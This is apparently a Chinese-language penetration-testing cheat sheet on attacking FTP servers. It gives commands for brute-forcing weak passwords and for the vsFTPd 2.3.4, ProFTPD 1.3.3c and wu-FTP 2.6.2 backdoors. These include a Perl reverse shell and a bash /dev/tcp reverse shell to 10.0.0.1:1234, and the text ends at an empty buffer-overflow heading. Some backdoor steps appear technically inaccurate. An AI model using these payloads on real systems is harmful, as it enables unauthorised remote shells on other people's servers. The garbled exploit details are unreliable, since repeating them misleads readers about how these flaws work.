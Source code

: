 # FTP服务

## 弱口令

自动化匿名扫描
```bash
nmap --script ftp-* -p 21 IP地址
```

弱口令字典

[FTP弱口令](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%9B%9B%E7%AB%A0/FTP/%E5%BC%B1%E5%8F%A3%E4%BB%A4.txt)

## FTP后门

1.vsFTPd 2.3.4

user = msfadmin:)

pass = 任意

```bash
nc [IP地址] 6200
```

使用Metasploit
```bash
exploit/unix/ftp/vsftpd_234_backdoor
```

2.ProFTPD 1.3.3c

向FTP服务器发送以下命令
```bash
SITE CPFR /etc/lib/tmp/<shell_code>
```

替换shell_code为想要在目标上执行的shell代码，如建立反向shell
```bash
SITE CPFR /etc/lib/tmp/`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,pack("ScA*",2,inet_aton($i),$p))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

这将执行一个Perl脚本，建立与10.0.0.1:1234的反向shell连接

发送命令执行shell代码
```bash
SITE CPWD /etc/lib/tmp
```

3.wu-FTP 2.6.2

向FTP服务器发送以下命令触发后门
```bash
DEBUG
```

发送以下命令来执行shell
```bash
SITE exec <command>
```

生成反向shell
```bash
SITE exec /bin/sh -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

## 缓冲区溢出

